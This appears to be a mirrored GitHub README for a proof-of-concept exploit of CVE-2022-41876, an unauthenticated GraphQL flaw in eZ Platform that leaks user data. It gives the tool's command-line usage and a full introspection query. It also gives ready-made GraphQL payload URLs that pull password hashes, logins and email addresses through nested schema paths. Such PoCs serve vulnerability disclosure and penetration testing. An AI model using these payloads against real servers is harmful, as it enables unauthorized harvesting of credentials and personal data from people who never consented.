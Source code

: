 # CVE-2022-41876

PoC for CVE-2022-41876

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Skileau](https://github.com/Skileau) |
| Url      | [https://github.com/Skileau/CVE-2022-41876](https://github.com/Skileau/CVE-2022-41876)                                               |
| Stars    | 7                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

<div align="center">
  <img alt="ibexa logo" width="600" src="./logo/Ibexa_Logo.png">
  <br><br>
  <img alt="Python3.9" src="https://img.shields.io/badge/Python-3.9+-informational">
  <img alt="current version" src="https://img.shields.io/badge/linux-supported-success"><br>
  <a href="https://twitter.com/intent/follow?screen_name=Skilo" title="Follow"><img src="https://img.shields.io/twitter/follow/askilow?label=Skilo&style=social" alt="Twitter Skilo"></a>
  <a href="https://twitter.com/intent/follow?screen_name=TahiTi" title="Follow"><img src="https://img.shields.io/twitter/follow/0xTahiTi?label=TahiTi&style=social" alt="Twitter TahiTi"></a>
  <br><br>
</div>

# CVE-2022-41876 - eZ Platform user information disclosure

A vulnerability emerged in eZ Platform letting an unauthenticated user access every contributor password's hash.
This PoC enumerates every possible GraphQL path leading to a 'User' object, and then requests these paths to retrieve users' confidential information.

## Usage

```
python3 cve-2022-41876.py -h
```
```
usage: cve-2022-41876.py [-h] [-t] [-f FILE] url

CVE-2022-41876 POC

positional arguments:
  url                   Target URL (specify the graphql endpoint)

optional arguments:
  -h, --help            show this help message and exit
  -t, --thread          Number of threads
  -f FILE, --file FILE  Local path to introspect file
```

## Results

![image](./example/poc.gif)

## How it works ?

The different steps followed by this tool to exploit the CVE are:

### Retrieving introspect file

The first step to exploit this CVE is to get an introspect.json file.
One way to retrieve it is to query the graphql endpoint of the server with the following payload:

```
https://<your-url>/graphql?query={__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name%20description%20locations%20args{...InputValue}}}}fragment%20FullType%20on%20__Type{kind%20name%20description%20fields(includeDeprecated:true){name%20description%20args{...InputValue}type{...TypeRef}isDeprecated%20deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name%20description%20isDeprecated%20deprecationReason}possibleTypes{...TypeRef}}fragment%20InputValue%20on%20__InputValue{name%20description%20type{...TypeRef}defaultValue}fragment%20TypeRef%20on%20__Type{kind%20name%20ofType{kind%20name%20ofType{kind%20name%20ofType{kind%20name%20ofType{kind%20name%20ofType{kind%20name%20ofType{kind%20name%20ofType{kind%20name}}}}}}}}
```

### Finding paths to User objects

Then the json given by the server can be used to extract all paths to the 'User' objects with the tool [graphql-enum-path](https://gitlab.com/dee-see/graphql-path-enum) like this:

![image](./example/graphql-enum.png)

### Requesting found paths to get users' data

Finally, once all the paths are found, a specific payload must be crafted this way and sent to the server:
```
https://<your-url>/graphql?query={element1{element2{element3{...{id,name,login,passwordHash,email,enabled,maxLogin}}}}}
```
Where elements correspond to the texts between bracket in the result of graphql-enum-path _(note that a query must be done for each path)_.

So, with the graphql-enum-path example above, the first payload would be:
```
https://<your-url>/graphql?query={_repository{location{contentInfo{contentType{creator{id,name,login,passwordHash,email,enabled,maxLogin}}}}}}
```

If the server is vulnerable to this CVE, it will respond to that query with a json file containing its users' data.

## References

[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)

[graphql-enum-path](https://gitlab.com/dee-see/graphql-path-enum)

## Credits

This PoC was created by [@Skilo](https://github.com/Skileau) and [@TahiTi](https://github.com/TahiTi)



## Get the content

```
git clone https://github.com/Skileau/CVE-2022-41876
cd CVE-2022-41876
```

{% embed url="https://github.com/Skileau/CVE-2022-41876" %}

<figure><img src="https://avatars.githubusercontent.com/u/83423277?v=4" alt=""><figcaption><p>Skileau</p></figcaption></figure>
